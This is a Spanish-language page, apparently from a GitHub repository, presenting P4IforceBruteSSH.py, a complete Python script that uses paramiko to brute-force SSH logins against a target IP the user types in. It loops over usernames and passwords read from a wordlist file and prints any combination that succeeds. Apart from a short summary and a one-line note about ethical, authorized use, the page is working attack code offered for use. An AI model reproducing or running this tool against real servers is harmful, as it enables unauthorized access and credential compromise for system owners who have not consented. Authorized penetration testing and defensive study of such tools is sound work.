 # 👹 FUERZA BRUTA A SSH         P4IforceBruteSSH.py

`P4IforceBruteSSH.py`, está diseñado para automatizar la prueba de fuerza bruta en conexiones SSH (Secure Shell). A continuación, un resumen de su funcionalidad:

1. **Banner de Bienvenida:** Muestra un banner de bienvenida al usuario cuando ejecuta el programa.
2. **Colores ANSI:** Define códigos de colores ANSI para mejorar la presentación de la salida en la consola.
3. **Función de Fuerza Bruta (`fuerzabruta`):** Define una función que intenta iniciar sesión en un servidor SSH con un nombre de usuario y contraseña dados. Registra si la prueba fue exitosa o falló y también guarda la actividad en un archivo de registro llamado `registro.log`.
4. **Función Principal (`main`):** Solicita al usuario la dirección IP del objetivo y, de manera predeterminada, el puerto SSH (22). Pregunta si ya tiene un nombre de usuario. Lee listas de nombres de usuario y contraseñas de un archivo llamado `listaUsyPasw.txt`. Realiza pruebas de fuerza bruta para cada combinación de usuario y contraseña llamando a la función `fuerzabruta`.
5. **Manejo de Excepciones (`try`/`except`):** Maneja la interrupción del teclado (Ctrl+C) para finalizar el programa de manera ordenada si el usuario decide detener la ejecución.

En resumen, este script intenta automatizar el proceso de prueba de fuerza bruta en conexiones SSH para un servidor especificado, utilizando nombres de usuario y contraseñas proporcionados en un archivo. Al igual que con el script anterior, ten en cuenta que el uso de herramientas de prueba de fuerza bruta debe realizarse de manera ética y legal, con el permiso del propietario del sistema o la aplicación.

````python
// Some code

```python
#!programa para automatizar la prueba de usuarios y contraseñas a una conexion SSH -  P4IforceBruteSSH.py - By P4IM0N

#-----------------------------------------------------------------------------------------------------------------
import paramiko
from tabulate import tabulate
import time

#-----------------------------------------------------------------------------------------------------------------
# Colores ANSI
COLOR_VERDE = "\033[92m"
COLOR_ROJO = "\033[91m"
COLOR_PURPURA = "\033[95m"
COLOR_RESET = "\033[0m"  # Restablecer el color

#-----------------------------------------------------------------------------------------------------------------
banner= f'''{COLOR_ROJO}

__________  _____ .___  _____                         __________                __           _________ _________ ___ ___  
\______   \/  |  ||   |/ ____\___________   ____  ____\______   \_______ __ ___/  |_  ____  /   _____//   _____//   |   \ 
 |     ___/   |  ||   \   __\/  _ \_  __ \_/ ___\/ __ \|    |  _/\_  __ \  |  \   __\/ __ \ \_____  \ \_____  \/    ~    |
 |    |  /    ^   /   ||  | (  <_> )  | \/\  \__\  ___/|    |   \ |  | \/  |  /|  | \  ___/ /        \/        \    Y    /
 |____|  \____   ||___||__|  \____/|__|    \___  >___  >______  / |__|  |____/ |__|  \___  >_______  /_______  /\___|_  / 
              |__|                             \/    \/       \/                         \/        \/        \/       \/  
{COLOR_RESET}{COLOR_PURPURA}By P4IM0N{COLOR_RESET}'''

print(banner)

#-----------------------------------------------------------------------------------------------------------------
def fuerzabruta(ip,puerto,usuario,contraseña):
    pruebas = []
    log= paramiko.util.log_to_file('registro.log')
    cliente= paramiko.SSHClient()
    cliente.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    
    try:
        cliente.connect(ip,port=puerto,username=usuario,password=contraseña)
        pruebas.append([f'CORRECTA: {usuario} : {contraseña}'])
        tabla_prueba = tabulate(pruebas,['PRUEBA'],tablefmt='grid')
        print(COLOR_VERDE+tabla_prueba+COLOR_RESET)
    
    except:
        pruebas.append([f'INCORRECTA: {usuario} : {contraseña}'])
        tabla_prueba = tabulate(pruebas,['PRUEBA'],tablefmt='grid')
        print(COLOR_ROJO+tabla_prueba+COLOR_RESET)    


#-----------------------------------------------------------------------------------------------------------------
def main():
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    ip_objetivo = input('Manito dame la IP objetivo para aplicarle fuerza bruta:  ')
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    puerto = 22
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    existe_usuario = input('Manito tienes un nombre de USUARIO? (s/n):  ')
    print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
    usuarios = open('listaUsyPasw.txt','r')
    usuarios = usuarios.read().split('\n')
    contraseñas = open('listaUsyPasw.txt','r')
    contraseñas = contraseñas.read().split('\n')
    if existe_usuario == 's':
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        usuario_aportado = input('Manito dame el nombre de usuario que tienes para hacer fuerza bruta a su contraseña:  ')
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        for passw in contraseñas:
            time.sleep(3)
            fuerzabruta(ip_objetivo,puerto,usuario_aportado,passw)
    else:     
        for user in usuarios:
            for passw in contraseñas:
                time.sleep(3)
                fuerzabruta(ip_objetivo,puerto,user,passw)
    


#-----------------------------------------------------------------------------------------------------------------
if __name__=='__main__':
    try:
        main()
    except KeyboardInterrupt:
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        print('Manito hasta la proximaaaa ')
        print(f'{COLOR_PURPURA}----------------------------------------------------------------------------------{COLOR_RESET}')
        exit()    


#-----------------------------------------------------------------------------------------------------------------
```
````
